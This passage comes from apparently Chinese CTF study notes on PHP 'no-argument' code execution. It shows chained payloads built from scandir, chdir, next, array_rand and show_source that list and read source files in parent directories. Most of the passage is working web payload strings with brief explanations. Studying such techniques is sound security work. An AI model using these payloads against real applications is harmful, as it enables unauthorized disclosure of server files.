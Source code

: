   `print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件`

  `chdir(dirname(getcwd())); //设置上级目录为运行目录`

- 构造`..`

  我们`scandir(getcwd())`出现的数组第二个就是`".."`，所以可以用`next()`获取`print_r(next(scandir(getcwd())));`

  结合上文的一些构造都是可以获得`..`的 ：`next(scandir(chr(ord(hebrevc(crypt(time()))))))`

### 读取上级目录文件

直接`print_r(readfile(array_rand(array_flip(scandir(dirname(getcwd()))))));`是不可以的，会报错，因为默认是在当前工作目录寻找并读取这个文件，而这个文件在上一层目录，所以要先改变当前工作目录

前面写到了`chdir()`，使用：`show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`即可改变当前目录为上一层目录并读取文件：

![image-20230720172405756](daydayup.assets/image-20230720172405756.png)

如果不能使用`dirname()`，可以使用构造`..`的方式切换路径并读取：

但是这里切换路径后`getcwd()`和`localeconv()`不能接收参数，因为语法不允许，我们可以用之前的`hebrevc(crypt(arg))`

这里`crypt()`和`time()`可以接收参数，于是构造：

```
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
或更复杂的：show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
还可以用：show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
```

还有一种构造方法`if()`：（这种更直观些，并且不需要找可接收参数的函数）

`if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));`

### 查看和读取多层上级路径
